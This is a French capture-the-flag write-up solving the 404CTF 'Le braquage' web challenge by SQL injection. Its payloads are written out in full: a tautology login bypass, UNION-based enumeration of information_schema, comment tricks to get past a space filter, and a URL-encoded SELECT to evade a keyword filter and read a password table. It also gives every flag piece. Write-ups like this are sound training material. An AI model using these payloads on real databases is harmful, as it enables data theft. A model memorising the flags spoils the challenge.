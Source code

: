 Le braquage

UTILISER SQLMAP SUR CE CHALLENGE-CI OU TOUT AUTRE CHALLENGE CONDUIRA A UN BAN

Vous êtes sur une affaire de cambriolage. D’après vos informations, un criminel surnommé TITI a prévu une rencontre avec ses complices pour préparer son prochain casse.

Heureusement, votre équipe est parvenu à trouver un site qu’ils utilisent. Ce site leur permet de communiquer et d’échanger des lieux de rendez-vous ainsi que des fausses identités. A vous d’exploiter cette base de données pour obtenir des informations sur le suspect et son opération : nom, prénom, adresse visée, date du casse, heure du casse, téléphone, mot de passe.

Les différents morceaux de flag sont sous la forme : 404CTF{Nom},404CTF{Prénom},404CTF{Adresse},404CTF{Date},404CTF{Heure},404CTF{Téléphone},404CTF{Mdp}

Le flag final est la concaténation de tous les morceaux sans espace : 404CTF{NomPrénomTéléphoneAdresseDateHeureMdp}

=======================================================================

On a trois pages du site, chacune avec son propre formulaire à injecter.



1 - Discuter avec des vendeurs d’OR près de chez vous
```
    Payload : ' OR '1'='1

    tel : 404CTF{0145769456}
    adresse : 404CTF{21 rue des kiwis}
```


2 - UNION des vendeurs d’OR de la région
```
    ' ORDER BY 2 -- - : OK
    ' ORDER BY 3 -- - : KO

    --> 2 colomnes

    ' UNION SELECT 1,schema_name FROM information_schema.schemata -- -

    --> 1	UnionVendeurs

    ' UNION SELECT 1,table_name FROM information_schema.tables WHERE table_schema='UnionVendeurs' -- -

    --> 1	Users
    --> 1	cooperatives

    ' UNION SELECT 1,column_name FROM information_schema.columns WHERE table_name='Users' -- -

    --> 1	id
    --> 1	nom
    --> 1	prenom 

    Payload : ' UNION SELECT nom,prenom FROM Users -- -

    nom : 404CTF{Vereux}
    prenom : 404CTF{UnGorfou}
```


3 - Rencontrez des vendeurs et parler avec eux sans FILTRES

    On a un filtre sur les espaces.

    On bypass avec la technique de l'ouverture-fermeture de commentaires qui sont interprétés comme un espace :
```
    Payload : '/**/OR/**/'1'='1

    date : 404CTF{2022-07-14}
    heure : 404CTF{01hDuMatin}
```

3 Bis - Récupérer le mot de passe

    SELECT est filtré. On peut bypass en encodant le SELECT en URL et de même avec les espaces :

    `'%20UNION%20%53%45%4c%45%43%54%201,2,schema_name%20FROM%20information_schema.schemata%20--%20`

    Payload finale :
    
    
    '%20UNION%20%53%45%4c%45%43%54%201,id,mdp%20FROM%20Password%20--%20-

    mdp : 404CTF{GorfousAuPouvoir}
    

404CTF{VereuxUnGorfou014576945621ruedeskiwis2022-07-1401hDuMatinGorfousAuPouvoir}

